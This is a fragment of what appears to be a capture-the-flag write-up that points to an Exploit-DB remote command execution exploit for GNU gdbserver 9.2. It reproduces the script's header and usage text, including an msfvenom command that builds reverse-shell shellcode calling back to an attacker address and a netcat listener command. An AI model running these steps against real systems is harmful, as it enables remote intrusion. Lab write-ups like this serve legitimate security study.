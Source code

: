 > First, find the cve for gdbserver

![](machine/backdoor/IMG/13.png)
- [Exploit DB - GNU gdbServer 9.2](exploit-db.com/exploits/50539)
- Payload
```
# Exploit Title: GNU gdbserver 9.2 - Remote Command Execution (RCE)
# Date: 2021-11-21
# Exploit Author: Roberto Gesteira Miñarro (7Rocky)
# Vendor Homepage: https://www.gnu.org/software/gdb/
# Software Link: https://www.gnu.org/software/gdb/download/
# Version: GNU gdbserver (Ubuntu 9.2-0ubuntu1~20.04) 9.2
# Tested on: Ubuntu Linux (gdbserver debugging x64 and x86 binaries)

#!/usr/bin/env python3


import binascii
import socket
import struct
import sys

help = f'''
Usage: python3 {sys.argv[0]} <gdbserver-ip:port> <path-to-shellcode>

Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 {sys.argv[0]} 10.10.10.200:1337 rev.bin
'''

```